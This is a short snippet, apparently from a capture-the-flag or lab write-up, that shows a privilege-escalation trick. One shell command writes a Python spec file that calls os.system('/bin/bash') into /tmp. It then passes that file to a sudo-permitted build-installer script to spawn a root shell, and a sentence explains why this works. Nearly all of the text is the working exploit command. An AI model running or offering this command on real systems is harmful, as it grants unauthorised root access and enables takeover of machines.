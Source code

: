 running the following command will get root:
~~~sh
echo 'import os;os.system("/bin/bash")' > /tmp/file.spec; sudo /usr/local/sbin/build-installer.sh build /tmp/file.spec
~~~
it makes a python script in the tmp dir and the build installer builds it and runs it giving you root because it spawns a new shell from `os.system("/bin/bash")`.
